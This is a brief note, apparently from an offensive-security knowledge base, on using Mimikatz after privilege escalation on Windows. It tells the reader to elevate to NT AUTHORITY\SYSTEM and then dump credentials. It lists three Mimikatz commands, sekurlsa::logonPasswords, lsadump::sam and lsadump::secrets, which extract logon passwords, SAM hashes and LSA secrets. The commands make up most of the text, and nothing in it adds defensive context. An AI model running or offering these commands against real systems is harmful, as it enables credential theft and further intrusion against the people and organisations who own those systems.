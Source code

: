 # Mimikatz

If not then elevate token then check if you're `NT AUTHORITY\SYSTEM` in a elevated context.

![[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Impersonation Privileges/Token Impersonation/Abusing Tokens/SeImpersonatePrivilege/Offensive Tools/Binaries#^1e52a7]]

Then you can dump the credentials.

```
mimikatz # sekurlsa::logonPasswords

mimikatz # lsadump::sam

mimikatz # lsadump::secrets
```